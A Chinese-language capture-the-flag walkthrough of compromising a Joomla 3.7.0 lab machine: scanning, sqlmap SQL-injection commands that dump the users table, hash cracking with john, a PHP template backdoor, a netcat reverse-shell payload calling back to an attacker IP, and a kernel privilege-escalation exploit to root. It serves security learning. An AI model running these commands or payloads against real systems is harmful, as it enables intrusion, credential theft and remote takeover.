# 信息收集

nmap扫描

发现目标ip,192.168.1.139

进一步收集端口、服务等信息

nmap -sV -p- 192.168.1.138



nmap初步漏洞扫描，发现joomla版本3.7.0，以及可能存在SQL注入漏洞



开放80端口，apacheweb服务，访问一下看看

说明情况，仅有一个flag,同时使用whatweb或者火狐插件，识别网站信息：

joomlaCMS搭建，到这里，针对该cms进行利用（Joomscan）

joomscan -u 192.168.1.139

adminurl打开是个后台登陆界面


# web攻击

针对目前收集到的信息，joomla 3.7.0,百度，google搜索相关攻击方式



跟着进行攻击利用即可,msf中也有相关利用脚本，但是攻击没有成功

## 使用 searchsploit工具

[searchsploit用法 - 流亡青年 - 博客园](https://www.cnblogs.com/liuwangqingnian/p/15180838.html)

 使用前先更新一下数据库,再搜索

```bash
 searchsploit --update  
 searchsploit joomla 3.7.0
 searchsploit -p 42033.txt
```

发现有一个SQL注入的漏洞可以利用

查找该利用方式的存储位置

searchsploit -p 42033.txt



复制一份过来，详细看看



用sqlmap进行注入攻击即可

```bash
sqlmap -u "http://192.168.1.139/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```



注入可以成功，那就进一步拿我们想要的信息即可

```bash
sqlmap -u "http://192.168.1.139/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D  joomladb --tables  -p list[fullordering] --batch
sqlmap -u "http://192.168.1.139/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D  joomladb -T "#__users"  --columns  -p list[fullordering]
sqlmap -u "http://192.168.1.139/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D  joomladb -T "#__users"  -C  name,username,password --dump  -p list[fullordering] --batch
```



得到admin用户以及他的密码hash

在网上没找到很明显的joomla的hash文件，因此我们准备暴力解码，使用john工具将password hash值保存成文本文件hash1.txt



接着输入 John hash.txt解密出来是snoopy，登陆成功



得到用户名：admin,密码：snoopy,登录网站



 仔细翻看，最后发现templates下存在模板，而模板里的php文件可编辑

创建一个php后门文件

访问一下看看，路径不对，百度查找一下joomla模板文件位置

 再根据模板模块中的信息尝试一下就可以找到  

蚁剑连接



写入反弹shell，创建文件，写入反弹shell木马

```bash
<?php 
system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.128 10086 >/tmp/f');
?>
```

kali监听，这里访问木马，nc -lvvp 10086

192.168.1.139/templates/beez3/html/shell1.php



得到shell,构建稳定shell     python -c "import pty; pty.spawn('/bin/bash')"

# 提权

获取当前主机信息

```plain
cat /proc/version   版本
cat /etc/issue     发行版本
```




```plain
Linux version  4.4.0-21
Ubuntu 16.04
```

 看到当前版本是Ubuntu 16.04， 去searchsploit寻找一下漏洞  


 对比搜索引擎搜索该版本漏洞，锁定path为39773.txt的漏洞。查看该文件路径  



## 文件传输

这里的攻击脚本，需要传到目标机器，这里我想到的思路有两个：

蚁剑上传、目标自己下载，这里让目标自己下载即可

下载并解压：

解开了exploit.tar文件可以看到有很多的脚本，接着进行如下操作。

```plain
./compile.sh
ls
cd ebpf_mapfd_doubleput_exploit
ls  
./compile.sh
```



编译成功，接着提权

```plain
./doubleput
```

等一会显示成功，此时是root权限，打开root目录，发现the-flag.txt



# 总结收获

1、joomlaCMS扫描工具：joomscan

2、漏洞数据库 searchsploit

3、john哈希破解工具

4、文件传输